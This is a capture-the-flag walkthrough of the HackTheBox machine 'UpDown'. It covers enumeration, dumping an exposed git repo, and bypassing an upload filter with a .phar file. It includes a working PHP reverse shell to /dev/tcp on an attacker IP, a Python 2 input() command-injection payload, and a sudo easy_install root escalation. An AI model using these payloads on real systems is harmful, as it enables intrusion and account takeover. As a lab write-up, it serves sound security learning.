# Hackthebox - UpDown


This post is focused on the walkthrough of Medium Machine UpDown from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/updown]
└─$ nmap -A -vv -oN nmapN 10.10.11.177                                   

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKMJ3/md06ho+1RKACqh2T8urLkt1ST6yJ9EXEkuJh0UI/zFcIffzUOeiD2ZHphWyvRDIqm7ikVvNFmigSBUpXI=
|   256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL1VZrZbtNuK2LKeBBzfz0gywG4oYxgPl+s5QENjani1
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only 2 ports are open so enumerating port 80 first.



The website serves a basic functionality and checks whether a site is up or down.



Also there is a domain ```siteisup.htb``` which we'll add to our ```/etc/hosts/``` file.

Since there's not much else to look for on the main page, we'll go for directory and vhost bruteforcing.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/updown]
└─$ gobuster vhost -u siteisup.htb -w /home/saad/Documents/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 100 -o vhosts
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://siteisup.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /home/saad/Documents/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/09/10 07:31:21 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.siteisup.htb (Status: 403) [Size: 281]
                                                 
===============================================================
2022/09/10 07:31:32 Finished
===============================================================
```
Found a subdomain ```dev.siteisup.htb```.

Visiting the above domain, we get a ```403```.



Going for directory bruteforcing now.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/updown]
└─$ gobuster dir -u http://siteisup.htb/ -w /usr/share/wordlists/dirb/common.txt -o dir -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://siteisup.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/10 07:32:47 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/dev                  (Status: 301) [Size: 310] [--> http://siteisup.htb/dev/]
/index.php            (Status: 200) [Size: 1131]                              
/server-status        (Status: 403) [Size: 277]                               
                                                                              
===============================================================
2022/09/10 07:32:55 Finished
===============================================================
```

We found an interesting directory ```dev```. Doing dir bruteforcing on that directory gives us a ```.git``` repo.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/updown]
└─$ gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt -o dir-dev -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://siteisup.htb/dev
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/10 07:33:09 Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 21]
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 0]  
                                               
===============================================================
2022/09/10 07:33:15 Finished
===============================================================
```

Using the [git-dumper](https://github.com/arthaud/git-dumper) tool, we can dump the git repo and analyze it locally.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/updown]
└─$ git-dumper http://siteisup.htb/dev dev
```

We get a bunch of files as well along with the ```git``` repo.

```bash
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/machines/updown/dev]
└─$ ls -al
total 40
drwxr-xr-x 3 saad saad 4096 Sep 10 07:41 .
drwxr-xr-x 3 saad saad 4096 Sep 10 07:41 ..
-rw-r--r-- 1 saad saad   59 Sep 10 07:41 admin.php
-rw-r--r-- 1 saad saad  147 Sep 10 07:41 changelog.txt
-rw-r--r-- 1 saad saad 3145 Sep 10 07:41 checker.php
drwxr-xr-x 7 saad saad 4096 Sep 10 07:41 .git
-rw-r--r-- 1 saad saad  117 Sep 10 07:41 .htaccess
-rw-r--r-- 1 saad saad  273 Sep 10 07:41 index.php
-rw-r--r-- 1 saad saad 5531 Sep 10 07:41 stylesheet.css
```

Going through ```git``` commits, an interesting commit revealed a way to access the ```dev``` vhost.



This means that we need to add a header ```Special-Dev``` with value ```only4dev``` in order to access the ```dev.siteisup.htb```.

Following that we land on the main page.



This site also has the same funcionality but instead of a single website we can check multiple by uploading a list of websites in a file.

But wait! File upload means we can also upload some malicious file to execute right? Let's try that.



Sadly uploading the ```php``` file tells us extension not allowed.

But we also have the source code so looking at the previously dumped ```checker.php``` file we can see the filtering.



The above code is checking for multiple extensions and if any of them match then it shows ```Extension not allowed!```.

Notice we have multiple older php extensions as well. Out of which ```phar``` extension is not present in the above check.

Let's try uploading a ```.phar``` file.



And the file got uploaded successfully.

## Foothold

Now what we need is to upload a reverse shell in ```.phar``` file, then find the path of the file and then execute it to get the reverse shell.

Looking further in the source code of ```checker.php``` file.



There's an ```uploads``` directory where it adds another directory with the name of ```md5``` sum of the current timestamp.

So if we upload a ```shell.phar``` file then the uploaded file will be at ```http://dev.siteisup.htb/uploads/md5_sum_of_current_time/shell.phar```.

We can have a look at ```http://dev.siteisup.htb/uploads``` directly right after uploading our file. But the file gets deleted as soon as it is read by the program.



What we can do is create a longer file with a bunch of urls to check and put our reverse shell code right after. This will hopefully give us enough time to execute the file.

Also notice that a bunch of php functions are disabled when we execute our reverse shell so the only shell that worked was with the ```proc_open``` function.

I wrote the shell modifying an example on ```proc_open``` [manual](https://www.php.net/manual/en/function.proc-open.php) page.

```shell.phar``` file.

```bash
http://test.com
http://test.com
http://test.com
...
...
...


<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('bash', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'bash -i >& /dev/tcp/10.10.14.64/4444 0>&1');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>

```

Executing the shell we get the connection back in our machine.



## www-data -> developer

Looking for interesting files, we have two files in the ```/home/developer/dev/``` directory.


One of the files is an ```elf``` binary while the other is a python file.

```siteisup``` binary.



Executing and looking at the strings of the binary, we can conclude that this is calling out the other file ```siteisup_test.py``` file.



So what exactly the file ```siteisup_test.py``` does? Well it also provides similar functionality and checks whether the provided site is up or not.

Contents of ```siteisup_test.py```

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

Running the binary, when we provide ```http://siteisup.htb``` in input it should've return ```Website is up``` or ```Website is down```. But instead it throws out an error.



Now if we provide the same input but in string format as ```"http://siteisup.htb"``` it returns the correct output.



Wait but what difference did that make?

By default the ```/usr/bin/python``` is running ```python2``` so the file ```siteisup_test.py``` is also being run in ```python2```.

Looking at [this](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/) article, we can see that the ```input()``` function of ```python2``` is vulnerable.

If we just use plain ```input()``` in ```python2```, instead of saving it in the variable as string, it takes it as an expression and runs our provided input.

We can take advantage of this behavior and try running system commands through this.

By reading [this](https://stackoverflow.com/a/44205566) stackoverflow answer, I made an expression to run code through the binary.

By provide the input ```__import__('os').system('id')```, we can see the output of the command.



Nice! we can run commands as ```developer```. 

Now simply read the ```ssh``` private key and log in as ```developer```.



And we're in!

## user.txt

```
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/updown]
└─$ ssh -i id_rsa developer@siteisup.htb

developer@updown:~$ whoami
developer

developer@updown:~$ cat user.txt
b0****************************af

```

## Privilege Escalation

Checking what we can run as ```sudo```.
```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

We can run ```easy_install``` as root without password.

Simply checking and running the [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) exploit of this binary we can escalate as root.

```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF

WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.Co2hiEXh3z
Writing /tmp/tmp.Co2hiEXh3z/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.Co2hiEXh3z/egg-dist-tmp-nK7eay

# whoami
root
```

## root.txt

```
root@updown:/tmp/tmp.Co2hiEXh3z# cd /root
root@updown:~# cat root.txt
31****************************af

```

**Thanks for reading!**
